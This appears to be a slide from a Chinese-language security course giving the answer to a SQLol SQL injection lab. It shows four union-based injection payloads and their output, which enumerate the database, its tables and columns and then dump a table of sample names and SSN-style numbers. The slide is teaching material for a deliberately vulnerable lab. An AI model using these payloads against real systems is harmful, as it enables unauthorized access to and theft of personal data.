

# SQL注入实例 – SQLol（1）答案
1. 查找数据库
' and 1=2 union select concat_ws(char(32,58,32),user(),database(),version()) #
Array ( [username] => pte@localhost : sqlol : 5.5.56-MariaDB )
2. 查找表
' and 1=2 union all select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='sqlol'; #
Array ( [username] => ssn ) 
Array ( [username] => users )
3. 查找列
' and 1=2 union select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='ssn';#
Array ( [username] => name ) 
Array ( [username] => ssn )
4. 显示所有字段
' and 1=2 union select concat_ws(char(32,58,32),name , ssn ) from ssn #
Array ( [username] => Wengdack Slobdegoob : 000-00-1112 ) 
Array ( [username] => Herp Derper : 012-34-5678 ) 
Array ( [username] => Peter Weiner : 111-22-3333 ) 
Array ( [username] => Chunk MacRunfast : 666-67-6776 ) 
Array ( [username] => SlapdeBack LovedeFace : 999-99-9999 )